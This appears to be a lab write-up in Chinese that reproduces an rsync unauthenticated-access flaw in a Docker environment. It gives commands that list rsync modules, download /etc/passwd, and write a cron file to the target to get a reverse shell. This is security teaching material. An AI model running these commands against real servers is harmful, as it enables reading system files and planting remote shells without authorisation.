

Rsync 未授权访问漏洞¶
Rsync 是 Linux 下一款数据备份工具，支持通过 rsync 协议、ssh 协议进行远程文件传输。其中 rsync 协议默认监听 873 端口，如果目标开启了 rsync 服务，并且没有配置 ACL 或访问密码，我们将可以读写目标服务器文件。
漏洞环境¶
编译及运行 rsync 服务器：
docker compose build
docker compose up -d
环境启动后，我们用 rsync 命令访问之：
rsync rsync://your-ip:873/
可以查看模块名列表：

漏洞复现¶
如上图，有一个 src 模块，我们再列出这个模块下的文件：
rsync rsync://your-ip:873/src/

这是一个 Linux 根目录，我们可以下载任意文件：
rsync -av rsync://your-ip:873/src/etc/passwd ./
或者写入任意文件：
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
我们写入了一个 cron 任务，成功反弹 shell：